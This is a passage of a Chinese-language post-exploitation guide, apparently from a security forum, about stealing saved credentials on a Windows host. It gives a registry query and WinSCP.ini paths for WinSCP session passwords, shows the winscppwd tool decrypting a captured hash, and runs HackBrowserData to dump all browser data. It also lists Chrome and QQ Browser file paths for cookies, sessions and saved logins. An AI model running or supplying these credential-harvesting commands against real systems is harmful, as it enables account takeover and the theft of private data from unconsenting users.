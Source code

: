 ## 0x08 获取 winscp 记录密码

默认注册表位置：

`shell reg query "HKEY_USERS\S-1-5-21-****\Software\Martin Prikryl\WinSCP 2\Sessions\root@192.168.190.137" /s`  
`HKEY_USERS\SID\Software\Martin Prikryl\WinSCP 2\Sessions\`

WIN7\\8下 WinSCP 文件默认位置：

`%userprofile%\AppData\Local\VirtualStore\Program Files (x86)\WinSCP\WinSCP.ini （64位操作系统）`  
`C:\Program Files (x86)\WinSCP\WinSCP.ini （64位操作系统）`  
`%userprofile%\AppData\Local\VirtualStore\Program Files\WinSCP\WinSCP.ini （32位操作系统`  
`C:\Program Files\WinSCP\WinSCP.ini （32位操作系统）`

winscppwd 破解密码：[https://bitbucket.org/knarf/winscppwd/downloads/winscppwd.exe](https://bitbucket.org/knarf/winscppwd/downloads/winscppwd.exe)

`winscppwd.exe winscp.ini`

[![](assets/1708223511-9b4dee66746994250d6f0a962d7ac479.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-96412466f68faf21627fdedb310ebc28b2557e24.png)

`winscppwd.exe root 10.1xx.x.213 A35C425xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx3B2B6D6F656B696965646E646F8D`

[![](assets/1708223511-e1ddc72b5ab0fd03af7ed72ec1b35cf0.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-f948ae8df55cc0bd1686b34269184f7fda171052.png)

## 0x09 获取浏览器信息

一键获取 HackBrowserData：[https://github.com/moonD4rk/HackBrowserData/](https://github.com/moonD4rk/HackBrowserData/)

`hack-browser-data.exe -b all -f json --dir results --cc`

浏览器各类文件地址：

（1）、google

```php
书签：%userprofile%\AppData\Local\Google\Chrome\User Data\Default\Bookmarks
Cookie: %userprofile%\AppData\Local\Google\Chrome\User Data\Default\Cookies
浏览历史：%userprofile%\AppData\Local\Google\Chrome\User Data\Default\History
当前的session：%userprofile%\AppData\Local\Google\Chrome\User Data\Default\Current
Session 账号密码：%userprofile%\AppData\Local\Google\Chrome\User Data\Default\Login
Data %userprofile%\AppData\Local\Google\Chrome\User Data\Profile 1\Login Data
```

（2）、QQ 浏览器

```php
⽤户数据⽬录：%userprofile%\AppData\Local\Tencent\QQBrowser\User Data\Default 
缓存⽬录：%userprofile%\AppData\Local\Google\Chrome\User Data\Default\Cache\ 
各⽂件如下： 
书签：%userprofile%\AppData\Local\Tencent\QQBrowser\UserData\Default\Bookmarks 
Cookie: %userprofile%\AppData\Local\Tencent\QQBrowser\UserData\Default\Cookies 
浏览历史：%userprofile%\AppData\Local\Tencent\QQBrowser\UserData\Default\History 
当前的session：%userprofile%\AppData\Local\Tencent\QQBrowser\UserData\Default\CurrentSession
账号密码：%userprofile%\AppData\Local\Tencent\QQBrowser\UserData\Default\Login 
Data或 %userprofile%\AppData\Local\Tencent\QQBrowser\UserData\Default\xxxxxxxxxxx\6
```
